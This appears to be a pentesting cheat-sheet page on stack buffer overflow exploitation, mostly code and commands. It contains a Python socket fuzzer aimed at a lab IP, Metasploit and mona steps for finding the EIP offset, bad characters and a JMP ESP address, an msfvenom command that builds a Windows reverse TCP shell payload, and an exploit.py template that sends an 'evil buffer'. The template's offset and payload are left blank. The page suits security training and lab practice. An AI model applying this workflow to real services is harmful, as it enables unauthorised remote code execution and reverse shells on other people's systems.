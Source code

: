 # Buffer Overflow

## Fuzzers

{% embed url="https://github.com/AceSineX/BOF-fuzzer-python-3-All-in" %}

```python
#!/usr/bin/python3

import sys, socket
from time import sleep

buffer = "A" * 100
prefix = ""
while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('192.168.49.177',7138))

        payload = prefix + buffer
        s.send((payload.encode()))
        s.close()
        sleep(1)
        buffer = buffer + "A"*100

    except:
        print ("Fuzzing crashed at %s bytes" % str(len(buffer)))
        sys.exit()
    
```

## Steps

* Fuzz and crash program w/ A's
* Create msfpattern

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```

* Provide EIP to find offset

```
!mona findmsp -distance 600
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q (EIP value)
```

* Check for bad characters

```
!mona config -set workingfolder c:\mona\%p 
!mona bytearray -cpb "\x00"
!mona compare -f c:\mona\nameOfProgram\bytearray.bin -a ESP-Address
```

* Find JMP ESP/Return Address
  * make sure protection schemes are off and base address doesn't contain bad chars

```
!mona jmp -r ESP -cpb "\x00" <-- put all bad characters
```

* Generate Shellcode

{% code overflow="wrap" %}
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.x.x LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00"
```
{% endcode %}

* Exploit!

## Exploit.py

```python
import socket

ip = "192.168.0.1"
port = 9999

prefix = ""
offset = ""
overflow = "A" * offset
retn = "" # JMP ESP/Return Address
padding = "" # "\x90" * 16 # nops
payload = ()
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```
